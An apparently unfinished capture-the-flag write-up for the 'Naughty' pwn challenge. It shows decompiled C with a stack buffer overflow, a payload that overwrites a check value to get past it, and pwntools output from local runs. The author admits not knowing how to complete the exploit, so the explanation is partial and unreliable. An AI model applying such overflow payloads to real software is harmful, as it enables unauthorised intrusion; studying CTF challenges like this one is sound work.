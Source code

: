 

## Pwn - Naughty

### Solution

```c
undefined8 FUN_00400637(void)

{
  char local_38 [46];
  short local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_a = -0x1b01;
  puts("Tell Santa what you want for XMAS");
  fgets(local_38,0x47,stdin);
  puts("Nice. Hope you haven\'t been naughty");
  if (local_a != -0x1b01) {
    puts("Oh no....no gifts for you this year :((");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return 0;
}
```

```
payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xff\xe4AAAAAA'
[+] Starting local process './naughty': pid 3906
[*] Switching to interactive mode
[*] Process './naughty' stopped with exit code 0 (pid 3906)
Tell Santa what you want for XMAS
Nice. Hope you haven't been naughty
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xff\xe4AAAAAAA'
[+] Starting local process './naughty': pid 3909
[*] Switching to interactive mode
Tell Santa what you want for XMAS
Nice. Hope you haven't been naughty
[*] Got EOF while reading in interactive
$ 
[*] Process './naughty' stopped with exit code -11 (SIGSEGV) (pid 3909)
[*] Got EOF while sending in interactive
```

This is a ROP chain, `local_38` is size 46, but we can write `0x47` or 71 bytes. We can beat the buffer overflow check by writing 46 characters and then `0xe4ff` `(-0x1b01)` and then...something to exploit the ROP chain, idk though
